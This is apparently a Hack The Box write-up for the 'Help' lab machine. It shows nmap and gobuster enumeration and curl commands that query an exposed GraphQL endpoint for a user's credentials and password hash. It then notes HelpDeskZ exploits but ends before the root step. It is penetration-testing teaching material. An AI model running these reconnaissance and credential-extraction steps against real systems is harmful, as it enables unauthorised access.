



# Help
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.121
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-19 18:37 BST
Nmap scan report for 10.10.10.121 (10.10.10.121)
Host is up (0.16s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5bb4d9cdeaf6bbfba8c227ad8d74328 (RSA)
|   256 d5b010507486a39fc5536f3b4a246119 (ECDSA)
|_  256 e21b88d37621d41e38154a8111b79907 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://help.htb/
|_http-server-header: Apache/2.4.18 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.49 seconds

```
- `gobuster`
```
└─$ gobuster dir -u http://help.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,html,txt         
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://help.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              html,txt,php
[+] Timeout:                 10s
===============================================================
2023/06/20 17:43:00 Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 287]
/.html                (Status: 403) [Size: 288]
/index.html           (Status: 200) [Size: 11321]
/support              (Status: 301) [Size: 306] [--> http://help.htb/support/]
/javascript           (Status: 301) [Size: 309] [--> http://help.htb/javascript/]
```
- Web server


- Port `3000`


- If we check the response headers
  - It's says powered by `Express`
  - If we google about `Express` and it's query language we see `GraphQL`



## Foothold
- Let's enumerate `GraphQL`
  - [Docs](https://graphql.org/learn/introspection/)
  - Query all information regarding types
  - We see that we have `user` query
  - `User` type with `username` and `password` fields

```
└─$ curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ __schema { types { name, fields { name, description } } } }" }' | jq 
{
  "data": {
    "__schema": {
      "types": [
        {
          "name": "Query",
          "fields": [
            {
              "name": "user",
              "description": ""
            }
          ]
        },
        {
          "name": "User",
          "fields": [
            {
              "name": "username",
              "description": ""
            },
            {
              "name": "password",
              "description": ""
            }
          ]
        },
        {
          "name": "String",
          "fields": null
        },
        {
          "name": "__Schema",
          "fields": [
            {
              "name": "types",
              "description": "A list of all types supported by this server."
            },
            {
              "name": "queryType",
              "description": "The type that query operations will be rooted at."
            },
            {
              "name": "mutationType",
              "description": "If this server supports mutation, the type that mutation operations will be rooted at."
            },
            {
              "name": "subscriptionType",
              "description": "If this server support subscription, the type that subscription operations will be rooted at."
            },
            {
              "name": "directives",
              "description": "A list of all directives supported by this server."
            }
          ]
        },
        {
          "name": "__Type",
          "fields": [
            {
              "name": "kind",
              "description": null
            },
            {
              "name": "name",
              "description": null
            },
            {
              "name": "description",
              "description": null
            },
            {
              "name": "fields",
              "description": null
            },
            {
              "name": "interfaces",
              "description": null
            },
            {
              "name": "possibleTypes",
              "description": null
            },
            {
              "name": "enumValues",
              "description": null
            },
            {
              "name": "inputFields",
              "description": null
            },
            {
              "name": "ofType",
              "description": null
            }
          ]
        },
        {
          "name": "__TypeKind",
          "fields": null
        },
        {
          "name": "Boolean",
          "fields": null
        },
        {
          "name": "__Field",
          "fields": [
            {
              "name": "name",
              "description": null
            },
            {
              "name": "description",
              "description": null
            },
            {
              "name": "args",
              "description": null
            },
            {
              "name": "type",
              "description": null
            },
            {
              "name": "isDeprecated",
              "description": null
            },
            {
              "name": "deprecationReason",
              "description": null
            }
          ]
        },
        {
          "name": "__InputValue",
          "fields": [
            {
              "name": "name",
              "description": null
            },
            {
              "name": "description",
              "description": null
            },
            {
              "name": "type",
              "description": null
            },
            {
              "name": "defaultValue",
              "description": "A GraphQL-formatted string representing the default value for this input value."
            }
          ]
        },
        {
          "name": "__EnumValue",
          "fields": [
            {
              "name": "name",
              "description": null
            },
            {
              "name": "description",
              "description": null
            },
            {
              "name": "isDeprecated",
              "description": null
            },
            {
              "name": "deprecationReason",
              "description": null
            }
          ]
        },
        {
          "name": "__Directive",
          "fields": [
            {
              "name": "name",
              "description": null
            },
            {
              "name": "description",
              "description": null
            },
            {
              "name": "locations",
              "description": null
            },
            {
              "name": "args",
              "description": null
            }
          ]
        },
        {
          "name": "__DirectiveLocation",
          "fields": null
        }
      ]
    }
  }
}
```

- `user` query returns `User` type
```
└─$ curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ __schema { queryType { name, fields { name, description, args {name}, type {name} } } } }" }' | jq 
{
  "data": {
    "__schema": {
      "queryType": {
        "name": "Query",
        "fields": [
          {
            "name": "user",
            "description": "",
            "args": [],
            "type": {
              "name": "User"
            }
          }
        ]
      }
    }
  }
}
```

- Let's query

```
└─$ curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ user { username password } }" }' | jq  
{
  "data": {
    "user": {
      "username": "helpme@helpme.com",
      "password": "5d3c93182bb20f07b994a7f617e99cff"
    }
  }
}
```
- Crack the hash


- Let's find a place where we can use those credentials
  - We saw `support` endpoint in `gobuster` results let's open it


- Use the creds 


- It's a [HelpDeskZ](https://github.com/helpdesk-z/helpdeskz-dev)
  - Let's find the version
  - We have 2 possible exploits related to version `<= 1.0.2`



- The older version of `HelpDeskZ` have a `readme.html` file
  - [Github](https://github.com/ViktorNova/HelpDeskZ)



## Root
